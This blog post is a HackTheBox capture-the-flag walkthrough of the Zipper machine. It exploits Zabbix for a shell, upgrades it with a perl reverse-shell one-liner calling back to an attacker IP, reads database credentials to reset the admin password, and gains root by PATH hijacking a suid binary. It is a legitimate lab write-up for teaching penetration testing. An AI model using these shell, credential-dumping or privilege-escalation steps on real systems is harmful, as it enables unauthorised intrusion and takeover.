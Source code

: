 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-02-22-zipper-hackthebox
tags:
- hackthebox
- linux
- zabbix
title: Zipper @ HackTheBox
---
```


This post is a walkthrough of Zipper, an interesting machine on [hackthebox.eu](https://www.hackthebox.eu) featuring the zabbix network monitoring application. It involves the application of known zabbix exploits, manipulation of database entries and light custom exploitation of a privileged binary.

## User & Root Flag

The initial scan (`nmap -Pn -n -sC -sV -p- 10.10.10.108 -oA 10.10.10.108`) shows the following results:

```
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 59:20:a3:a0:98:f2:a7:14:1e:08:e0:9b:81:72:99:0e (RSA)
|   256 aa:fe:25:f8:21:24:7c:fc:b5:4b:5f:05:24:69:4c:76 (ECDSA)
|_  256 89:28:37:e2:b6:cc:d5:80:38:1f:b2:6a:3a:c3:a1:84 (ED25519)
80/tcp    open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10050/tcp open  tcpwrapped
```

A first look on port 80 shows just a default apache2 installation website so we look for more web content with gobuster:

```
gobuster -u http://10.10.10.108 -w ~/tools/SecLists/Discovery/Web-Content/quickhits.txt
```

Running for a few seconds shows that a directory named zabbix exists:

![](htb_zipper_zabbix.png)

Trying some default credentials we eventually enter `zapper:zapper` which does work, but gives the error ‘GUI Access disabled’. This suggests there might be some way to interact with the service without actually using the gui.

A quick google search reveals that there is an API that can be used to talk to zabbix. An important information to get out of zabbix is which hosts it is monitoring. The following short python program connects to the API and prints the configured host ids:

```
from pyzabbix import ZabbixAPI

zapi = ZabbixAPI("http://10.10.10.108/zabbix")
zapi.login("Zapper", "zapper")
print("Connected to Zabbix API Version %s" % zapi.api_version())
for h in zapi.host.get(output="extend"):
    print(h['hostid'])
```

Result:

```
Connected to Zabbix API Version 3.0.21
10105
10106
```

Looking for public exploits with searchsploit we find 39937.py which needs a host id to exploit the application. Since we now do have these ids we can use them if we change the path, ip, credentials and hostid in the exploit code. Running the modified exploit gives a command shell:

```
[zabbix_cmd]>>:  whoami
zabbix
[zabbix_cmd]>>:  id
uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
```

Since this shell is missing features and convenience we upgrade to a perl reverse tcp shell:

```
perl -e 'use Socket;$i="10.10.14.18";$p=8000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Looking around on the host we find "/usr/lib/zabbix/externalscripts/backup\_script.sh":

```
#!/bin/bash
# zapper wanted a way to backup the zabbix scripts so here it is:
7z a /backups/zabbix_scripts_backup-$(date +%F).7z -pZippityDoDah /usr/lib/zabbix/externalscripts/* &>/dev/null
```

In `/backups` we see 2 backup files:

```
zabbix_scripts_backup-2019-02-22.7z
zapper_backup-2019-02-22.7z
```

We can unpack `zabbix_scripts_backup-2019-02-22.7z` with the password from the script but it just contains the backup\_script.sh itself so it wont help much at this point.

Another interesting file is `/etc/zabbix/web/zabbix.conf.php`:

```
...
DBUser=zabbix
DBName=zabbixdb
DBPassword=f.YMeMd$pTbpY3-449
...
```

With these credentials we can connect to the database and dump the users and their hashes with the following query:

```
mysql -u zabbix -p'f.YMeMd$pTbpY3-449' -D zabbixdb -e "select name, alias, passwd from users; > out.txt"
```

```
Zabbix  Admin 65e730e044402ef2e2f386a18ec03c72
guest d41d8cd98f00b204e9800998ecf8427e
zapper  zapper  16a7af0e14037b567d7782c4ef1bdeda
```

Since cracking the admin password didn’t give any immediate results we change the password of the admin user to something we know:

```
mysql -u zabbix -p'f.YMeMd$pTbpY3-449' -D zabbixdb -e "update users set passwd=md5('xct') where alias='Admin';" > out.txt
```

In addition we want to enable the gui access to see what we can do in the app:

```
mysql -u zabbix -p'f.YMeMd$pTbpY3-449' -D zabbixdb -e "update usrgrp set gui_access = 1 where name = 'administrators';" > out.txt
```

![](htb_zipper_admin_1.png)

Looking at zabbix [docs](https://www.zabbix.com/documentation/3.2/manual/web_interface/frontend_sections/administration/scripts) we see that we can start scripts on the configured hosts. As seen before with the host ids we can see here again that it is indeed 2 different hosts:

```
Zabbix 127.0.0.1: 10050      
Zipper 172.17.0.1: 10050
```

We see in the scripts section that this is basically what the exploit has been doing all along:

![](htb_zipper_admin_2.png)

On this [url](http://10.10.10.108/zabbix/tr_status.php?fullscreen=0&groupid=2&hostid=0&show_triggers=2&ack_status=1&show_events=1&show_severity=0&txt_select=&application=&inventory%5B0%5D%5Bfield%5D=type&inventory%5B0%5D%5Bvalue%5D=&filter_set=Filter]) we can execute these scripts by clicking on the hostname.

However one detail is still missing. The scripts will be executed on the "server"-side, which means no matter which host we execute it on, it will be executed on the server. By changing it to "agent" and executing it we can actually get a shell on zapper:

![](htb_zipper_script_on_agent.png)

```
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:2aff:fe9c:e446  prefixlen 64  scopeid 0x20<link>
        ether 02:42:2a:9c:e4:46  txqueuelen 0  (Ethernet)
        RX packets 67919  bytes 5366647 (5.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 68574  bytes 5135469 (5.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

One of the first things on a new host is to look for suid binaries with `find / -perm -u=s -type f 2>/dev/null`, which returns the suid program `/home/zapper/utils/zabbix-service`, which happens to be a 32-bit ELF executable.

Executing the file prints the string `start or stop?:` and is waiting for user input. With `strings -n8 /home/zapper/utils/zabbix-service` we find the following strings inside the binary, which are the commands it actually executes:

```
systemctl daemon-reload && systemctl start zabbix-agent
systemctl stop zabbix-agent
```

Since it doesn’t use the absolute path for systemctl we can abuse that to run our own code and get root! Placing a script called systemctl at the location where we are running the tool will execute it in the context of root. We use it to get a root shell, grab user and root flags and are done with the box:

```
echo '#!/bin/bash' > /tmp/systemctl
echo '/bin/bash' >> /tmp/systemctl
chmod +x /tmp/systemctl
export PATH=/tmp:$PATH
/home/zapper/utils/zabbix-service start
```

`uid=0(root) gid=0(root) groups=0(root),113(zabbix)`